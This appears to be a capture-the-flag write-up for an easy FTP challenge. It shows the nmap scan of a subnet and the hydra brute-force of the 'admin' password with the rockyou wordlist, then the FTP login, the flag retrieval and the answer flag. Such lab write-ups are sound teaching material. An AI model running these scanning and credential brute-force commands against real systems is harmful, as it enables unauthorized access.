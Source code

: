 # Flag Transfer Protocol

Proposed difficulty: `Very easy`

52 solves

```text
Er der mon en "admin" der har en port åben for at overføre filer? Og har han mon tænkt over at John lurer i skyggerne?
```

Has remote

## Solution

I first started scanning the network for any network devices with port 21 open.

I specifically search for port 21 as it is the FTP port. The name of the challenge suggests that this is the target service.

```bash
$ nmap 77.143.64.0/24 -sV -p 21 --open
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-19 19:11 CET
Nmap scan report for 48.64.143.77.rev.sfr.net (77.143.64.48)
Host is up (0.010s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.88 seconds
```

Here we see that the host `77.143.64.48` has port 21 open.

After a bit of looking around, i noticed that the anonymous user was not available, so the next step is to try to bruteforce credentials.

I did this by trying with username `admin` as hinted to in the description and using rockyou.txt for a wordlist attack. For this i will use `hydra`.

`hydra -l admin -P [...]/rockyou.txt ftp://77.143.64.48`

I left this running in the background while looking at other challenges.

After a while I got the following output from hydra:

```text
[21][ftp] host: 77.143.64.48   login: admin   password: phantom
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-19 19:20:18
```

We can now use the username and password combination (`admin`:`phantom`) to log into the ftp server.

```sh
$ ftp 77.143.64.48 -n
Connected to 77.143.64.48.
220 pyftpdlib 1.5.9 ready.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> user
(username) admin
331 Username ok, send password.
Password: 
230 Login successful.
ftp> get flag.txt
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
34 bytes received in 0,000148 seconds (224 kbytes/s)
ftp>
221 Goodbye.
$ cat flag.txt            
DDC{Keeping-track-of-all-my-flags}
```

# Flag

`DDC{Keeping-track-of-all-my-flags}`
